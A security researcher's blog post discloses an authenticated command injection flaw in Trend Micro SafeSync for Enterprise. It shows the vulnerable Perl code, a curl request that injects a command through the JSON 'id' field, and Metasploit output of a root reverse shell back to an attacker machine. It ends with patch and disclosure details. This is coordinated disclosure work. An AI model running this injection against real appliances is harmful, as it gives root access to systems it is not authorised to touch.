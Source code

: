```yaml
---
layout: post
title:  "Trend Micro Bug Hunting - Part II"
date:   2016-09-06 07:00:00
comments: true
categories: pentesting trendmicro
---
```



Trend Micro Safe Sync for Enterprise is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of Safe Sync for Enterprise to gain remote command execution with root privileges.

From Trend Micro documentation:

> Trend Micro(TM) SafeSync for Enterprise(TM) allows enterprises to securely synchronize, share, and manage corporate data. Deployed on premise and in a private cloud, SafeSync provides file encryption and document tagging to prevent unauthorized access to sensitive data. SafeSync also supports file version control and redundant file backup.
	       
I recommend anyone running SafeSync for Enterprise to apply the critical patch released by Trend Micro, available at the following location:

* Safesync Enhancement Pack 1 (SSFE 3.2) - [http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4887&lang_loc=1](http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4887&lang_loc=1)

Trend Micro Advisory is available on their [business support website](https://success.trendmicro.com/solution/1115193-security-bulletin-trend-micro-safesync-for-enterprise-ssfe-remote-code-execution-vulnerability)

#### Affected Versions

* Trend Micro Safe Sync for Enterprise up to version 3.2

### Authenticated RCE - Technical Description

The following Perl script do not sanitize user inputs prior to using them as parameters of system commands:

* /opt/SingleInstaller/MgmtUI/lib/MgmtUI/Controller/api/admin/ad.pm

An authenticated user can abuse this by injecting his own commands using different kind of operators such as &&, ; , >, <.

Let's look at the vulnerable component:

**/opt/SingleInstaller/MgmtUI/lib/MgmtUI/Controller/api/admin/ad.pm [lines 747-772]**

In the excerpt below, we can see that ```$server_id``` is directly initialiazed from unsanitized json data values and fed
to ad_changed_sync.py command as ```--sync``` and ```--updatehost``` parameters.

{% highlight perl %}
sub ad_sync_now_PUT {
  my ( $self, $c ) = @_;
  my $reqdata = $c->req->data;
  my $server_id = $reqdata->{id};

  my $result;
  eval {
    system("/opt/SingleInstaller/ad_module/ad_python/bin/python /opt/SingleInstaller/ad_module/ad_changed_sync.py --sync $server_id  --updatehost $server_id &");
  };
  my $e;

  if ( $e = Exception::Class->caught('InternalErrorException') ) {
    $c->response->status(500);
    $result = {
      code  => 'ERROR_INTERNAL_ERROR',
      error => $e->description
    };
  } else {
    $c->response->status(200);
    $result = {};
  }
  $c->stash->{json} = $result;
  $c->forward('View::JSON');
}
{% endhighlight %}


From a client point of view, this would happen like this:

<pre style="background-color:black; font-size:10pt;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
$ curl -X PUT -k -i 'https://safesync.local:3443/api/admin/ad/ad_sync_now' -H 'Accept: */*' -H 'Host: safesync.local:3443' -H 'Content-Type: application/json; charset=utf-8' -H 'Referer: https://safesync.local:3443/admin_ldap_integration.html' -H 'Cookie: mgmtui_session=268b871790680ba79c5de832b18549e6cb908e16' --data '{"id":"1; INJECTED COMMAND"}
</pre>

### Proof-of-Concept

Take a look at the Metasploit [module](https://github.com/QKaiser/metasploit-framework/blob/master/modules/exploits/linux/http/trendmicro_safesync_exec.rb) I wrote. It works to get a reverse shell as root but in a weird way, using interactive `sh` and FIFO files. This is because the injection happen within a `sh -c 'command'` call, meaning it will raise a "file descriptor not found" if you try the usual reverse shell in bash.

On the plus side, you can always use python if you can't live without tty.

<pre style="background-color:black; font-size:10pt;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
msf exploit(trendmicro_safesync_exec) > run
[*] Started reverse TCP handler on kali.local:4444
[*] Successfully logged in.
[*] Exploiting...
[*] Command shell session 12 opened (kali.local:4444 -> safesync.local:47333) at 2016-09-06 13:19:29 -0400
[*] Command Stager progress - 100.00% done (690/690 bytes)

/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# python -c 'import pty; pty.spawn("/bin/bash")'
root@appliance1:/#
</pre>

I doubt I'll try to merge the module upstream until I get it to work in a generic way (support for meterpreter stager).

### Conclusion

Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.

Part III will discuss yet another Trend Micro product where I managed to be greeted with ```#```. If everything goes as expected, advisory should be released by September 30th.


### Disclosure Timeline

* 2016-07-20: Advisory sent to Trend Micro 
* 2016-07-22: Trend Micro acknowledge the issue
* 2016-08-11: Trend Micro released patch
* 2016-09-06: Advisory publication
